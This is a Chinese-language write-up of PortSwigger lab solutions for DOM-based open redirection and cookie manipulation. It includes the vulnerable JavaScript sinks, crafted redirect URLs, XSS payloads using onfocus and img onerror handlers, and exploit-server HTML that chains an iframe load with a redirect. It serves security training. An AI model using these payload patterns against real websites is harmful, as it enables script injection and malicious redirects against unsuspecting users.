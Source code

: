 ```yaml
---
title: PortSwigger DOM-based vulnerabilities
description: PortSwigger DOM-based vulnerabilities
---
```


## 資源

這邊整理了可能會有 DOM-based vulnerabilities 的情境

- https://portswigger.net/web-security/dom-based#common-sources
- https://portswigger.net/web-security/dom-based#which-sinks-can-lead-to-dom-based-vulnerabilities
- https://portswigger.net/web-security/dom-based/open-redirection#which-sinks-can-lead-to-dom-based-open-redirection-vulnerabilities

## Lab: DOM-based open redirection

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/dom-based/open-redirection#what-is-the-impact-of-dom-based-open-redirection |
| Lab       | https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection                         |

在評論頁面 `/post?postId=6` 下方的 Back to Blog，有以下程式碼

```js
returnUrl = /url=(https?:\/\/.+)/.exec(location);
location.href = returnUrl ? returnUrl[1] : "/";
```

構造 `https://0a130030047030c880bdc72300910016.web-security-academy.net/post?postId=6&url=https://exploit-0aeb00cd0416304980e8c6bc01cd00d9.exploit-server.net`，並且點擊 Back to Blog，即可完成

## Lab: DOM-based cookie manipulation

| Dimension | Description                                                                                              |
| --------- | -------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/dom-based/cookie-manipulation#what-is-dom-based-cookie-manipulation |
| Lab       | https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation           |

首先用 `document.cookie` 去搜尋，找到在商品頁 `/product?productId=1` 有以下 js

```js
document.cookie =
  "lastViewedProduct=" + window.location + "; SameSite=None; Secure";
```

並且重整後，會在右上角看到

```html
<a
  href="https://0a2200800321237180a52b3d00ca004a.web-security-academy.net/product?productId=1"
  >Last viewed product</a
>
```

構造以下 querystring

- decode：`?productId=1&xss=' tabindex=0 autofocus onfocus='print()`
- encode：`?productId=1&xss='%20tabindex=0%20autofocus%20onfocus=%27print()`

在 exploit-server 構造以下 html

```html
<html>
  <head></head>
  <body>
    <iframe
      src="https://0a2200800321237180a52b3d00ca004a.web-security-academy.net/product?productId=1&xss='%20tabindex=0%20autofocus%20onfocus=%27print()"
    ></iframe>
  </body>
</html>
```

View exploit => 看到 `Blocked autofocusing on a <a> element in a cross-origin subframe.`，看來這題沒這麼好解...

改成注入新的 DOM 試試看

- decode： `?productId=1&xss='></a><img src='x' onerror='print()'/><a href='`
- encode： `?productId=1&xss=%27></a><img%20src=%27x%27%20onerror=%27print()%27/><a%20href=%27`

由於第一次進入商品頁會寫入 `document.cookie`，第二次進入商品頁才會觸發 XSS，所以我們需要先用 `<iframe>` 模擬第一次的載入，在 exploit-server 構造以下 html

```html
<html>
  <head></head>
  <body>
    <script>
      function redirectToVulnPage() {
        location.href =
          "https://0a2200800321237180a52b3d00ca004a.web-security-academy.net/product?productId=1&xss=%27></a><img%20src=%27x%27%20onerror=%27print()%27/><a%20href=%27";
      }
    </script>
    <iframe
      src="https://0a2200800321237180a52b3d00ca004a.web-security-academy.net/product?productId=1&xss=%27></a><img%20src=%27x%27%20onerror=%27print()%27/><a%20href=%27"
      onload="redirectToVulnPage()"
    ></iframe>
  </body>
</html>
```

這題我覺得蠻有趣，需要結合 [Cross-site scripting](./port-swigger-cross-site-scripting.md) 的知識

##

## 參考資料

- https://portswigger.net/web-security/dom-based
